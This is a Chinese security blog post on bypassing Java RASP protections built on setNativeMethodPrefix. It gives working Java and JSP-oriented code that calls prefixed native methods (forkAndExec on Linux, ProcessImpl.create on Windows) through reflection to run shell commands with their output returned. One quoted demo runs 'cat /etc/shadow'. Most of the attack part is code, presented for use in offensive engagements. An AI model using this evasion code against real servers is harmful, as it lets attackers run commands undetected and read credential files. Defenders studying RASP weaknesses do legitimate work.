










# Bypass RASP NativeMethodPrefix学习

原创 yzddMr6

[↓↓↓](javascript:)  
  
网络安全回收站  
  
[↑↑↑](javascript:)

*2023-12-28 18:06* *发表于浙江*

## 背景

众所周知，Java的RASP是没有办法直接Hook Native方法的，但确实有这个场景的需求。于是JDK官方出了一个java.lang.instrument.Instrumentation#setNativeMethodPrefix，在Java方法映射C++方法的时候加一个前缀，这样相当于创建一个了原有Native方法的代理，从而实现了Hook Native方法。

jrasp应该是最早公开介绍该技术用于RASP防御的（经su18师傅提醒，严谨一些）：https://www.jrasp.com/guide/technology/native\_method.html。

但是当攻击者有一定代码执行权限的时候，还是可以绕过。以命令执行来说，原来的Native方法为forkAndExec，加个前缀变成prefixforkAndExec，那么我们只需要反射调用prefixforkAndExec这个新的方法名即可。

turn1tup师傅给出了一个绕过的demo，核心逻辑为通过反射拿到真正的native方法，即可绕过RASP对于命令执行的hook:https://github.com/turn1tup/JvmRaspBypass/blob/main/src/main/java/com/test/RaspExample.java

```plain
try {
    Class<?> clazz = Class.forName("java.lang.UNIXProcess");

    //cmd2,bypass jrasp native hook
    for (Method m : clazz.getDeclaredMethods()) {
        if (m.getName().endsWith("forkAndExec")&&!m.getName().equals("forkAndExec")) {
            m.setAccessible(true);
            System.out.println("prefix native method : "+m.getName());
            Cmd.linuxCmd(new String[]{"/bin/bash","-c","cat /etc/shadow && touch /tmp/shadow2"},m);
        }
    }
} catch (Exception ignore) {
    ignore.printStackTrace();
}
```

最近在实际攻防中发现该方式挺有用的，因此本人进行扩展，实现了一个Win/Linux下通用的，自动绕过MethodPrefix的，可回显的，反射Native方法执行命令的JSP Demo。

## 搞一个简单的RASP

为了测试，先模拟一个setNativeMethodPrefix的RASP，参考 https://www.secrss.com/articles/49044，主要逻辑为： 1.移除想要hook的native方法。 2.增加一个native方法，这个方法和hook的native方法除了方法名增加prefix，其他相同。 3.增加一个和hook native方法同名的java方法（除了native modifier之外其他和hook native 方法相同），其中返回时调用prefix native方法。 这里为了简单起见直接throw Exception，把命令执行给干掉。

核心代码如下：

```plain
public

static

byte
[]
 transformed
()

{

ClassPool
 pool
=

ClassPool
.
getDefault
();

CtClass
 clazz
=

null
;

try

{

System
.
out
.
println
(
"start convert java.lang.UNIXProcess"
);
          clazz
=
 pool
.
getCtClass
(
"java.lang.UNIXProcess"
);

if

(
clazz
.
isFrozen
())

{
              clazz
.
defrost
();

}

CtMethod
 method
=

CtNewMethod
.
make
(
"int myPrefix_forkAndExec(int var1, byte[] var2, byte[] var3, byte[] var4, int var5, byte[] var6, int var7, byte[] var8, int[] var9, boolean var10);"
,
 clazz
);
          method
.
setModifiers
(
Modifier
.
PRIVATE
|

Modifier
.
NATIVE
);

System
.
out
.
println
(
"add new native method myPrefix_forkAndExec"
);
          clazz
.
addMethod
(
method
);

CtMethod
 method1
=
 clazz
.
getDeclaredMethod
(
"forkAndExec"
);

System
.
out
.
println
(
"remove old native method forkAndExec"
);
          clazz
.
removeMethod
(
method1
);

CtMethod
 method2
=

CtNewMethod
.
make
(
"int forkAndExec(int var1, byte[] var2, byte[] var3, byte[] var4, int var5, byte[] var6, int var7, byte[] var8, int[] var9, boolean var10) { throw new RuntimeException(\"RASP hooked forkAndExec\"); }"
,
 clazz
);

System
.
out
.
println
(
"add new method forkAndExec"
);
          clazz
.
addMethod
(
method2
);

return
 clazz
.
toBytecode
();

}

catch

(
Exception
 e
)

{
          e
.
printStackTrace
();

}

return

new

byte
[
0
];

}
```

直接命令执行会被干掉

## 兼容无MethodPrefix场景&添加回显

把turn1tup师傅的代码改成JSP版本

可以绕过并执行命令，但是没回显，并且turn1tup师傅的代码仅适用于设置了MethodPrefix的场景，没设置反而不行。 javasec有一个Linux下反射Native执行命令并回显的demo，直接拿来改改 核心代码：

```plain
try {
        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限
        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });
    } catch (Exception e) {
        System.out.println("[-] reflect forkAndExec failed,try to bypass");
        for (Method m : processClass.getDeclaredMethods()) {
            if (m.getName().endsWith("forkAndExec") && !m.getName().equals("forkAndExec")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                int pid = (int) m.invoke(processObject, new Object[]{
                        ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                        null, envc[0], null, std_fds, false
                });
            }
        }
    }
```

效果



## 支持Windows

搜了一下发现公开的调用Native绕过的都是Linux平台的，debug看了一下Windows的Windows反射Native更简单：Windows执行命令对应的Native方法是java.lang.ProcessImpl#create，create方法是个static，不需要实例化对象就可以调用；另外获取回显的文件描述符stdHandles也不像Linux那么多处理分支，可以直接用代码实现，不需要再反射调用。

核心代码：

```plain
public static String WinCreateProcess(String cmd) throws Exception {
    Class<?> processImplClass = Class.forName("java.lang.ProcessImpl");
    long[] stdHandles = new long[]{-1, -1, -1}; // Initialize as invalid handles.
    sun.misc.JavaIOFileDescriptorAccess fdAccess
            = sun.misc.SharedSecrets.getJavaIOFileDescriptorAccess();

    // 这里将 redirectErrorStream 设置为 true 以便于将错误输出重定向到标准输出
    boolean redirectErrorStream = true;
    try {
        Method createMethod = processImplClass.getDeclaredMethod("create",
                String.class, String.class, String.class, long[].class, boolean.class);
        createMethod.setAccessible(true);
        long processHandle = (Long) createMethod.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
    } catch (Exception e) {
        System.out.println("[-] reflect create failed,try to bypass");
        for (Method m : processImplClass.getDeclaredMethods()) {
            if (m.getName().endsWith("create") && !m.getName().equals("create")) {
                System.out.println("[+] get prefix native method : " + m.getName());
                m.setAccessible(true);
                long processHandle = (Long) m.invoke(null, cmd, null, null, stdHandles, redirectErrorStream);
            }
        }
    }

    FileDescriptor stdout_fd = new FileDescriptor();
    fdAccess.setHandle(stdout_fd, stdHandles[1]);
    InputStream stdout_stream = new BufferedInputStream(
            new FileInputStream(stdout_fd));

    return getStreamStr(stdout_stream, "GBK");
}
```

效果 直接执行命令，会被干掉。运行POC，即可绕过。


